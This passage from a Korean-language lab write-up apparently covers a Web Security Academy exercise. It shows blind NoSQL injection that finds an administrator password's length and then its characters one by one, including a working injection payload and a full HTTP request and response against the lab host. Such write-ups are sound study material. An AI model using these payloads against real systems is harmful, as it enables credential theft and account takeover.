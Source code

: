 이제 위의 테스트를 반복해서 패스워드의 길이를 알아낸다. 반복하다보면 `this.password.length > 7` 에서는 결과가 True였는데 `this.password.length > 8` 에서는 결과가 False인 것을 알 수 있다. 따라서 패스워드의 길이는 8자리인 것을 알 수 있다. 

## 패스워드의 각 자리수의 값을 알아내기 
힌트에서 각 패스워드는 알파벳 소문자만 쓰고 있다고 했으므로 각 패스워드 자리마다 최대 26번(알파벳개수) 테스트하면 값을 알아낼 수 있을 것이다. 

페이로드는 다음을 사용한다. 패스워드의 자리와 비교할 문자는 적절히 바꾸면서 테스트한다. 

`administrator' && this.password[0] == 'a' || 'a'=='b`

### 패스워드의 첫번째 값 알아내기 

패스워드 값이 `g`일 때 administrator유저의 데이터를 포함한 응답이 돌아왔다. 패스워드의 첫번째 자리는 g인 것을 알았다. 

```http
GET /user/lookup?user=administrator%27%20%26%26%20this.password[0]%20==%20%27g%27%20||%20%27b%27==%27b HTTP/2
Host: 0aa700fd034c830d81cad4a300640087.web-security-academy.net
Cookie: session=tEl6FiREhuIvrPyCDJMkLiV7NsZk1byw
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 96

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

### Intruder를 사용해서 나머지 패스워드 알아내기
그런데 이 과정을 앞으로 7번 더 하려면 조금 귀찮다. Intruder를 사용하면 조금 더 쉽게 할 수 있을 것이다. 페이로드 타입 Simple List에 a부터 z까지 추가한다. 
